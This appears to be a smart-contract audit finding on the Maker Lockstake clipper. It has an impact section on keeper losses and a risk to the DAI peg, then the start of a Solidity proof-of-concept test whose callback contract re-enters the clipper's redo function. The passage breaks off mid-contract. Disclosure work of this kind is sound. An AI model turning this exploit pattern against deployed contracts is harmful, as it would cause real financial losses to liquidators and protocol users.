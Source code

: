 ### Impact

Immediate Financial Losses for Keepers:
Keepers (liquidators) who participate in auctions will suffer direct financial losses instead of earning rewards.
For example, if a keeper participates in the liquidation of a 100,000 DAI debt position, they could lose the amount of DAI they bid in the auction. This could range from a few thousand DAI to potentially the full auction amount, depending on their bidding strategy and the auction parameters.
This could lead to substantial losses for active keepers, potentially in the millions of DAI if multiple large liquidations occur before the issue is detected.

Breakdown of the Liquidation Mechanism:
Once keepers realize they're losing money, they will stop participating in liquidations.
This will leave the system unable to process bad debt, leading to an accumulation of undercollateralized positions.
If left uncorrected, this vulnerability could severely compromise the protocol's liquidation mechanism, which is crucial for maintaining system health. Over time, this could indirectly challenge the protocol's ability to maintain the DAI peg and overall stability.

Systemic Imbalance in the Maker Protocol:
The incorrect movement of DAI will cause a mismatch between the protocol's debt and its collateral backing.
This vulnerability could lead to a breakdown of the liquidation mechanism as keepers would be disincentivized from participating. Over time, if left uncorrected, this could result in an accumulation of undercollateralized positions in the system, potentially putting pressure on the DAI peg.

### PoC

Create a new test file and add the following code:
```javascript
// SPDX-License-Identifier: AGPL-3.0-or-later

pragma solidity ^0.8.21;

import "dss-test/DssTest.sol";

import {LockstakeClipper} from "src/LockstakeClipper.sol";
import {LockstakeEngine} from "src/LockstakeEngine.sol";
import {PipMock} from "test/mocks/PipMock.sol";
import {StairstepExponentialDecreaseAbstract} from
    "../lib/token-tests/lib/dss-test/lib/dss-interfaces/src/dss/StairstepExponentialDecreaseAbstract.sol";
import {GemMock} from "./mocks/GemMock.sol";
import {NstJoinMock} from "./mocks/NstJoinMock.sol";
import {MkrNgtMock} from "./mocks/MkrNgtMock.sol";

contract RedoGuy {
    LockstakeClipper clip;

    constructor(LockstakeClipper clip_) {
        clip = clip_;
    }

    function clipperCall(address sender, uint256 owe, uint256 slice, bytes calldata data) external {
        owe;
        slice;
        data;
        clip.redo(1, sender);
    }
}

contract KickGuy {
    LockstakeClipper clip;

```